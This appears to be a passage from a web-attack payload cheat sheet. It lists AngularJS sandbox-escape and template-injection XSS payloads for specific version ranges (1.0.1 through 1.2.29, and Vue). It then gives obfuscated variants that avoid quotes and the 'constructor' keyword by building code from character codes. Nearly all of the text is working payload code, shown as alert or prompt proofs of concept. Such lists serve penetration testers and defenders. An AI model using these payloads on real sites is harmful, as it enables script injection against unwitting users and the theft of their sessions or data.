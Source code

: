 AngularJS 1.2.24 - 1.2.29

```javascript
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

AngularJS 1.2.19 - 1.2.23

```javascript
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

AngularJS 1.2.6 - 1.2.18

```javascript
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

AngularJS 1.2.2 - 1.2.5

```javascript
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

AngularJS 1.2.0 - 1.2.1

```javascript
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

AngularJS 1.0.1 - 1.1.5 and Vue JS

```javascript
{{constructor.constructor('alert(1)')()}}
```

### Advanced bypassing XSS

AngularJS (without `'` single and `"` double quotes) by [@Viren](https://twitter.com/VirenPawar_)

```javascript
{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(97,108,101,114,116,40,49,41))()}}
```

AngularJS (without `'` single and `"` double quotes and `constructor` string)

```javascript
{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,toString()[a].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}
```

```javascript
{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,toString()[a].fromCodePoint(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}
```
